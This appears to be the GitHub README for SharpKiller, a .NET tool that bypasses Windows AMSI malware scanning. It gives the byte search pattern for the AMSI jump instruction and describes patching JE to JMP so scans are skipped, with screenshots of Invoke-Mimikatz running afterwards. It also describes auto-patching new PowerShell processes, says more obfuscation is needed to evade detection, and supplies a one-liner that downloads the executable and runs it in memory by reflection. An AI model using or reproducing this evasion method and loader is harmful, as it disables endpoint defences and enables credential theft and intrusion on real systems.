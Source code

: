 # SharpKiller
Lifetime AMSI bypass AMSI-Killer by @ZeroMemoryEx ported to .NET Framework 4.8.

# Additional Obfuscation required
https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=VirTool:MSIL/SharpKiller.A&ThreatID=2147895059

Newly integrated features:

[ x ] - Live scan for new powershell processes every 0.5 seconds -> Automatically patches new powershell instances 

#### Building the solution
* Set your platform explicitly to x64 in Build > configuration manager

## How does it work?
### Opcode Scan

* we get the exact address of the jump instruction by searching for the first byte of each instruction this technique is effective even in the face of updates or modifications to the target data set.

* for example :

  ` | 48:85D2 | test rdx, rdx |`

  ` | 74 3F | je amsi.7FFAE957C694 |`

  ` | 48 : 85C9 | test rcx, rcx |`

  ` | 74 3A | je amsi.7FFAE957C694 |`

  ` | 48 : 8379 08 00 | cmp qword ptr ds : [rcx + 8] , 0 |`

  ` | 74 33 | je amsi.7FFAE957C694 |`

* the search pattern will be like this :

  `{ 0x48,'?','?', 0x74,'?',0x48,'?' ,'?' ,0x74,'?' ,0x48,'?' ,'?' ,'?' ,'?',0x74,0x33}`

  
  ![image](https://user-images.githubusercontent.com/60795188/221431685-60fb2012-db0f-41aa-bd7b-3a19f07c91c4.png)

## Patch

### Before Patch

* The program tests the value of RDX against itself. If the comparison evaluates to 0, the program executes a jump to return. Otherwise, the program proceeds to evaluate the next instruction

  ![image](https://user-images.githubusercontent.com/60795188/221431975-73c78c9c-5358-44c2-b0de-41d68024e2bb.png)
  
  <img src="https://github.com/S1lkys/SharpKiller/assets/40408435/59f4ef29-9ed1-4d14-9ea8-f29bf299534d" height="500">

* we cant execute "Invoke-Mimikatz"

  ![image](https://user-images.githubusercontent.com/60795188/221432132-20993ccf-c53e-493d-8b22-feaea86fb6bf.png)

### After Patch


* we patch the first byte and change it from JE to JMP so it return directly 

  ![Screenshot 2023-02-26 195848](https://user-images.githubusercontent.com/60795188/221444031-5b8c365f-cb38-4ce4-89b5-153ecc12208d.png)

  ![image](https://user-images.githubusercontent.com/60795188/221432418-841db688-879c-4915-8d6e-926236a3732c.png)

* now we can execute "Invoke-Mimikatz"
  <img src="https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo_.jpg" height="450">


### Newly created processes

* Sharp-Killer will patch any newly created Powershell processes in near real time.
  <img src="https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo.jpg" height="450">

## Video demo
  ![video](https://raw.githubusercontent.com/S1lkys/SharpKiller/main/media/demo.gif)

## OneLiner to run with reflection
```
$url = "https://github.com/S1lkys/SharpKiller/releases/download/1.1/Sharp-Killer.exe"; $cli = New-Object System.Net.WebClient; $sk=[System.Reflection.Assembly]::Load([byte[]]( $cli.DownloadData($url)));$vars = New-Object System.Collections.Generic.List[System.Object];$BindingFlags= [Reflection.BindingFlags] "NonPublic,Static";$sk.EntryPoint.Invoke($null,@(,$passed));
```

## References:
* https://github.com/ZeroMemoryEx/Amsi-Killer
